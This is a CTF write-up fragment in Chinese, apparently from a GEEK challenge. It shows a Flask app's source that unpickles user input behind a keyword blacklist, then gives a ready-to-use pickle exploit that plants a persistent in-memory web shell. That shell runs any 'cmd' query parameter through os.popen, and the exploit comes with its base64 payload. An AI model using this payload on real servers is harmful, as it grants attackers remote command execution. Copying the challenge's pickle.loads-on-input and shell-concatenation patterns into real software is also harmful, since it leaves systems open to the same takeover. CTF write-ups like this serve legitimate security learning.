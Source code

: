 ```
            for i in black.blacklist:
                if i in heal_state:
                    return render_template('waf.html')
            pickle.loads(heal_state)
            res = make_response(f"Congratulations! You accomplished the first step of healing Starven's broken heart!")
            flag = os.getenv("GEEK_FLAG") or os.system("cat /flag")
            os.system("echo " + flag + " > /flag")
            return res
        except Exception as e:
            print( e)
            pass
            return "Error!!!! give you hint: maybe you can view /starven_s3cret"

    return render_template('login.html')

@app.route('/monologue',methods=['GET','POST'])
def joker():
    return render_template('joker.html')

@app.route('/starven_s3cret', methods=['GET', 'POST'])
def secret():
    return send_file(__file__,as_attachment=True)

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000, debug=False)
```

这道题的和MoeCTF2024的`PetStore`差不多，我的文章里刚好有，可以直接写入Flask内存马

- [MoeCTF 2024 - HYH (hyhforever.top)](https://www.hyhforever.top/moectf-2024/)

里面的poc直接拿过来用就可以了

```
import pickle
import base64

import os

class Pet:
    def __reduce__(self):
        return (eval, (
        "__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('cmd')).read())",))

e = Pet()
poc = pickle.dumps(e)

print(base64.b64encode(poc).decode())
#gASVwgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIymX19pbXBvcnRfXygic3lzIikubW9kdWxlc1snX19tYWluX18nXS5fX2RpY3RfX1snYXBwJ10uYmVmb3JlX3JlcXVlc3RfZnVuY3Muc2V0ZGVmYXVsdChOb25lLCBbXSkuYXBwZW5kKGxhbWJkYSA6X19pbXBvcnRfXygnb3MnKS5wb3BlbihyZXF1ZXN0LmFyZ3MuZ2V0KCdjbWQnKSkucmVhZCgpKZSFlFKULg==
```
